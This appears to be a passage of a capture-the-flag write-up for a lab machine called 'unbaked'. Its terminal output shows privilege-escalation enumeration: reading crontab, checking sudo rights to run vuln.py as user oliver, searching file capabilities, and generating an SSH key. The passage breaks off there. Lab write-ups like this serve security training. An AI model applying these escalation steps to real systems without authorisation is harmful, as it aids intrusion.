 ```powershell
ramsey@unbaked:~$ ls -lsa
total 48
4 drwxr-xr-x 5 ramsey ramsey 4096 Oct  6  2020 .
4 drwxr-xr-x 4 root   root   4096 Oct  3  2020 ..
4 -rw------- 1 root   root      1 Oct  5  2020 .bash_history
4 -rw-r--r-- 1 ramsey ramsey 3771 Oct  3  2020 .bashrc
4 drwx------ 3 ramsey ramsey 4096 Oct  3  2020 .cache
4 drwx------ 4 ramsey ramsey 4096 Oct  3  2020 .local
4 drwxrwxr-x 2 ramsey ramsey 4096 Oct  3  2020 .nano
4 -rwxrw-r-- 1 ramsey ramsey 1645 Oct  3  2020 payload.png
4 -rw-r--r-- 1 ramsey ramsey  655 Oct  3  2020 .profile
4 -rw-r--r-- 1 root   root     38 Oct  6  2020 user.txt
8 -rw-r--r-- 1 root   ramsey 4369 Oct  3  2020 vuln.py

ramsey@unbaked:~$

```

> **Switch User with Internal Logic**
> 

```powershell
ramsey@unbaked:~$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

ramsey@unbaked:~$ sudo -l
[sudo] password for ramsey: 
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py

ramsey@unbaked:~$ getcap -r / 2>/dev/null 
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep

ramsey@unbaked:~$ ls -lsa /home/ramsey/vuln.py
8 -rw-r--r-- 1 root ramsey 4369 Oct  3  2020 /home/ramsey/vuln.py

ramsey@unbaked:~$ ssh-keygen -f oliver
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in oliver.
```